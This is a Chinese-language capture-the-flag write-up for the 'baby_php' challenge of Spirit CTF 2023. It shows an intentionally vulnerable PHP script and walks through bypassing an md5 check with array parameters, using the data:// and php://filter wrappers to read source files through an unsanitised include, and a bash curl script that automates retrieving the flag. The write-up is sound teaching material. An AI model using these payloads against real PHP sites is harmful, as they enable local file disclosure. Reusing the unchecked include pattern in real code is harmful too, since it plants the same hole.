 # Spirit CTF 2023 题解 - baby_php

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

if (!isset($_GET['a']) || !isset($_GET['b']))
    die('Never gonna give you up');

$a = $_GET['a'];
$b = $_GET['b'];

if ($a == $b || md5($a) != md5($b)) {
    die('Never gonna let you down');
}

if (!isset($_GET['c'])) {
    die('Never gonna run around and desert you');
}

if (file_get_contents($_GET['c']) !== 'Never gonna make you cry') {
    die('Never gonna say goodbye');
}

if (!isset($_GET['d'])) {
    $_GET['d'] = 'flag.php';
    echo 'Never gonna tell a lie and hurt you';
}

include $_GET['d'];
```

---

#1
===

```php
if ($a == $b || md5($a) != md5($b)) {
    die('Never gonna let you down');
}
```

这里要求`$a`与`$b`不相等，且对两者进行md5的结果相等

有很多方法可以绕过，比较简单的方法是传递数组

对于老版本的php的md5函数，如果参数为非字符串，将会返回NULL，构造两个不同的数组a和b，md5的结果均为NULL，于是通过了这关

也可以看看利用弱类型特性的`0e`绕过和比较简单直接的md5碰撞～

```
/?a[]=1&b[]=2
```

#2
===

```php
if (file_get_contents($_GET['c']) !== 'Never gonna make you cry') {
    die('Never gonna say goodbye');
}
```

这里要求文件读取的结果为`'Never gonna make you cry'`，通过data伪协议绕过（php的`file_get_contents`，`include`这类函数一般都是支持伪协议的！）

```
/?a[]=1&b[]=2&c=data://text/plain,Never gonna make you cry
```

#3
===

```php
if (!isset($_GET['d'])) {
    $_GET['d'] = 'flag.php';
    echo 'Never gonna tell a lie and hurt you';
}

include $_GET['d'];
```

这里主要是提示可以对`flag.php`进行读取~~（其实是我把创建flag文件的代码写flag.php里了qwq）~~

如果直接`include`的话，就是通过php解释器执行代码了，所以要换个方法，让php的解释器不认它

一种可行的方法是使用php的伪协议，利用`php://filter`将文件内容进行base64编码后再读取，这样就不会有php标签啦

```
/?a[]=1&b[]=2&c=data://text/plain,Never gonna make you cry&d=php://filter/read=convert.base64-encode/resource=flag.php
```

> PD9waHAKJGZsYWcgPSAkX0VOVlsnRkxBRyddID8/ICdTcGlyaXR7ZmFrZS1mbGFnLXF3cX0nOwpmaWxlX3B1dF9jb250ZW50cygnc3Bpcml0ZmxhZ3F3cScsICRmbGFnKTsK

```shell
echo '...' | base64 -d
```

```php
<?php
$flag = $_ENV['FLAG'] ?? 'Spirit{fake-flag-qwq}';
file_put_contents('spiritflagqwq', $flag);
```

然后再直接读取`spiritflagqwq`就好了～

```
/?a[]=1&b[]=2&c=data://text/plain,Never gonna make you cry&d=php://filter/read=convert.base64-encode/resource=spiritflagqwq
```

如果读取没有结果可以先去一遍参数d，执行一遍flag.php来写入（逃

---

一键获得flag

```shell
#!/bin/bash

host="http://<host>:<port>/"
a='a[]=1'
b='b[]=2'
c='c=data://text/plain,Never+gonna+make+you+cry'
d='d=php://filter/read=convert.base64-encode/resource=spiritflagqwq'

curl -s -G \
    --data "$a" \
    --data "$b" \
    --data "$c" \
    "$host" > /dev/null
	
curl -s -G \
    --data "$a" \
    --data "$b" \
    --data "$c" \
    --data "$d" \
    "$host" |
    tail -n 1 |
    sed 's/<\/code>\(.*\)/\1/' |
    base64 -d
```
